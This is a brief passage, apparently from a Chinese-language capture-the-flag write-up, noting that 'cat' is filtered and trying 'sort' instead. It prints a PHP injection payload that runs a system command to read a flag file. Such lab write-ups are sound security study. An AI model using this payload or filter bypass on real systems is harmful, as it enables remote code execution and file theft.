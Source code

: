 ![image-20240125152347579](照片/image-20240125152347579.png)

cat无法读取，应该是有过滤

试一下sort

```
name=<?php system("sort /flaggggg");?>
```

